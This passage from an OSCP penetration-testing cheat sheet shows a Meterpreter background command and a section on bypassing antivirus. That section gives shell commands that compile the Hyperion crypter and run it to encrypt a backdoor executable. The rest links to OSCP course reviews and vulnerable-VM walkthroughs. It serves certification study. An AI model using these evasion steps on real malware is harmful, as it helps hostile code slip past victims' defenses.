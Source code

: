     -   Create a Meterpreter background session  
   
        `background`
 
<span id="_51btodqc88s2" class="anchor"><span id="_Toc480741825" class="anchor"></span></span>Bypassing Antivirus Software
===========================================================================================================================
 
-   Crypting Known Malware with Software Protectors
 
    -   One such open source crypter, called Hyperion  
   
        `cp /usr/share/windows-binaries/Hyperion-1.0.zip  
        unzip Hyperion-1.0.zip  
        cd Hyperion-1.0/  
        i686-w64-mingw32-g++ Src/Crypter/*.cpp -o hyperion.exe  
        cp -p /usr/lib/gcc/i686-w64-mingw32/5.3-win32/libgcc_s_sjlj-1.dll .  
        cp -p /usr/lib/gcc/i686-w64-mingw32/5.3-win32/libstdc++-6.dll .  
        wine hyperion.exe ../backdoor.exe ../crypted.exe`
 
 
OSCP Course Review
================================================================================================================
 
-   Offensive Security’s PWB and OSCP — My Experience  
    [*http://www.securitysift.com/offsec-pwb-oscp/*](http://www.securitysift.com/offsec-pwb-oscp/)
 
-   OSCP Journey  
    [*https://scriptkidd1e.wordpress.com/oscp-journey/*](https://scriptkidd1e.wordpress.com/oscp-journey/)
 
-   Down with OSCP  
    [*http://ch3rn0byl.com/down-with-oscp-yea-you-know-me/*](http://ch3rn0byl.com/down-with-oscp-yea-you-know-me/)
 
-   Jolly Frogs - Tech Exams (Very thorough)
 
[*http://www.techexams.net/forums/security-certifications/110760-oscp-jollyfrogs-tale.html*](http://www.techexams.net/forums/security-certifications/110760-oscp-jollyfrogs-tale.html)
 
<span id="_pxmpirqr11x0" class="anchor"><span id="_Toc480741798" class="anchor"></span></span>OSCP Inspired VMs and Walkthroughs
================================================================================================================================
 
-   [*https://www.vulnhub.com/*](https://www.vulnhub.com/)  
    [*https://www.root-me.org/*](https://www.root-me.org/)
 
-   Walk through of Tr0ll-1 - Inspired by on the Trolling found in the
    OSCP exam  
    [*https://highon.coffee/blog/tr0ll-1-walkthrough/*](https://highon.coffee/blog/tr0ll-1-walkthrough/)  
    Another walk through for Tr0ll-1  
    [*https://null-byte.wonderhowto.com/how-to/use-nmap-7-discover-vulnerabilities-launch-dos-attacks-and-more-0168788/*](https://null-byte.wonderhowto.com/how-to/use-nmap-7-discover-vulnerabilities-launch-dos-attacks-and-more-0168788/)  
    Taming the troll - walkthrough  
    [*https://leonjza.github.io/blog/2014/08/15/taming-the-troll/*](https://leonjza.github.io/blog/2014/08/15/taming-the-troll/)  
    Troll download on Vuln Hub  
    [*https://www.vulnhub.com/entry/tr0ll-1,100/*](https://www.vulnhub.com/entry/tr0ll-1,100/)
 